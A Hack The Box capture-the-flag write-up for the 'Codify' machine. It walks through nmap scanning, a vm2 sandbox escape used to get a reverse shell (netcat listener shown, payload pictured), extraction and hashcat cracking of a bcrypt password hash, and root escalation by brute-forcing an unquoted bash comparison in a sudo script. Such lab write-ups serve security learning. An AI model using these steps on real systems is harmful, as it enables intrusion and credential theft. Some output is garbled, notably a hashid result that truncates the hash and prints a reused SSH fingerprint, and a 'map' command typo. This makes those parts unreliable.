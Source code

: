 ```yaml
---
title: Hack the box - Codify pwned!
date: 2024-02-24 00:00:01 +0000
categories: [hack the box, machine]
tags: [hack the box, codify, vm2 library, sqlite3, posix variable quotes]
img_path: /assets/img/posts/
---
```


## Machine info

![Codify](htb-codify-info.png)
*Codify info*

## Annotations

>In this article we are going to assume the following ip addresses:
>
>Local machine (attacker, local host): 10.10.16.96
>
>Target machine (victim, Codify): 10.10.11.239
{: .prompt-info}

## Enumeration

If we list the open ports in the machine, we can see that there are two open ports: 22 (ssh) and 80 (http):

`nmap -Pn -n -sS -p- -T5 --min-rate 5000 -oN nmap_initial.txt 10.10.11.239`

```
22/tcp open  ssh
80/tcp open  http
```

## Footprinting

If we look for more information about the services running in those ports we will find the machine address:

`map -Pn -n -sVC -p22,80 10.10.11.239`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We add the machine address to our `/etc/hosts`:

`echo "10.10.11.239 codify.htb" | sudo tee -a /etc/hosts`

### Codify web

We browse to `http://codify.htb` to take a look at the web:

#### Codify

![Codify](htb-codify-web-codify.png)
*Codify*

#### About us

![Codify about us](htb-codify-web-about-us.png)
*Codify about us*

Here, we can see that the editor is using the [vm2 library](https://github.com/patriksimek/vm2).

#### Limitations

![Codify limitations](htb-codify-web-limitations.png)
*Codify limitations*

#### Editor

![Codify editor](htb-codify-web-editor.png)
*Codify editor*

## Foothold

As the editor is using the [vm2 library](https://github.com/patriksimek/vm2), and this project is discontinued due security issues, we let's take advantage of a [sandbox escape PoC in vm2](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) to inject a reverse shell in the editor.

We start a listener in our host:

```
nc -lvnp 1234
```

And, we inject the reverse shell in the editor:

![Codify editor reverse shell](htb-codify-web-editor-reverse-shell.png)
*Codify editor reverse shell*

### svc

Now, we get shell as the user `svc`.

```
svc@codify:~$ whoami
svc
svc@codify:~$ id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
```

After taking a look at the system files, in `/var/www/contact` we can find the sqlite3 database `tickets.db`.
Inside the database we will find the hashed password for the user `joshua`:

`sqlite3 tickets.db`

```
sqlite> .tables
tickets  users
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

We analyze the hash to see what type it is:

```
hashid $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
Analyzing 'a/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2'
[+] Cisco Type ba4c0cfe23b95aef6f5df7d0c88d6ce
```

We put the hash in the `hash.txt`file:

`echo "$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2" > hash.txt`

And, we crack the hash using `hashcat`:

```
hashcat -a 0 -m 3200 hash.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

### joshua

Now, we have a new user and password, and since seems useless on the web, we will try to connect by `ssh`:

`ssh joshua@10.10.11.239`

And we are in!

```
joshua@codify:~$ id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
```

We can get our user flag:

`joshua@codify:~$ cat user.txt`

After taking our flag, we need to escalate privileges, so let's take a look to see what we can do as `joshua`:

```
joshua@codify:~$ sudo -l
[sudo] password for joshua:
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

We can execute the `/opt/scripts/mysql-backup.sh` script as root, so let's take a look at the source code:

```bash
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

Ok, we can see that the programmer forgot to quote the variables in the passwords comparision:

```bash
if [[ $DB_PASS == $USER_PASS ]]
```

So, we can exploit this in order to get the root password.
If you want to know more about the implications of forgetting to quote a variable in bash comparisons you can take a look at this **GREAT** post in [stackexchange](https://stackexchange.com/):
[security implications of forgetting to quote a variable in bash posix shells](https://unix.stackexchange.com/questions/171346/security-implications-of-forgetting-to-quote-a-variable-in-bash-posix-shells)

To bruteforce the root password I did a python script that you can see here: [bruceforcer.py](https://github.com/rubenhortas/hackthebox/blob/main/codify/bruteforcer.py)

After a while we will have our root password and we can get the system flag:

`su`

`root@codify:~# cat /root/root.txt`

## Pwned!

![Codify](htb-codify-pwned.png)
*Codify has been Pwned*

*Enjoy! ;)*
